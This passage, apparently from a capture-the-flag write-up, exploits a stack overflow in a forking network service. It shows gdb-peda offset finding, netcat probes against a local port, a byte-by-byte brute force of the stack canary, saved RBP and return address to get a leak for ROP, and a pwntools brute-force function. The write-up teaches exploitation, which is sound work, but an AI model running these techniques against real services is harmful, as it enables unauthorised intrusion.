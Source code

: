 
I’ll use `pattern_offset` to get the distance to the canary:

    
    
    gdb-peda$ pattern_offset 0x4841413241416341
    5206514328315978561 found at offset: 56
    

I can show this by sending 56 characters into the program (55 As and a `\n`),
and getting “Done.”, but then sending 57 (56 As and a `\n`), and not:

    
    
    root@kali# python -c 'print "A"*55' | nc 127.0.0.1 1337
    Please enter the message you want to send to admin:
    Done.
    root@kali# python -c 'print "A"*56' | nc 127.0.0.1 1337
    Please enter the message you want to send to admin:
    

#### Brute Force Canary

Now I can use this to brute force the canary value. I can send 256 requests,
each with 56 bytes of junk and a unique 57th byte. That 57th byte will
overwrite the low byte of the canary (which is always 00). The 255 non-zero
requests will return no additional data, or an end of file if I try to read
from the socket. The request with 56 bytes of junk + ‘0x00’ will return
“Done.”. I can do that same for the next 7 bytes to get the full canary. Now I
can overwrite the canary and continue on to overwrite the return address.

#### Brute Force RBP and Return

I can use almost the exact same tactic to brute force the next two words. The
return value will be particularly useful, as it will give me a leak to
calculate the memory space for the program, so I can use rop gadgets from it.

There is an additional challenge with these two. What if there are more than
one byte that makes them valid? This really only applies to the low byte. But
think about the return address. If it returns one instruction later, will it
crash? Not necessarily. To get around this, I’ll hardcode the least
significant byte for the return address. For RBP, I don’t really care, since
any working value will allow me to overwrite it, and I’m not going to use the
address for any calculations.

#### Code

My code for this brute force looks like this:

    
    
    def get_next_byte(s, r):
    
        for i in r:
            p = remote(host,port)
            p.recvuntil("Please enter the message you want to send to admin:\n")
            try:
                p.send(s + i.to_bytes(1,'big'))
                p.recvuntil('Done.', timeout=2)
                p.close()
                return i.to_bytes(1,'big')
            except EOFError:
                p.close()
        import pdb   # Shouldn't get here
        pdb.set_trace()
        print("Failed to find byte")
    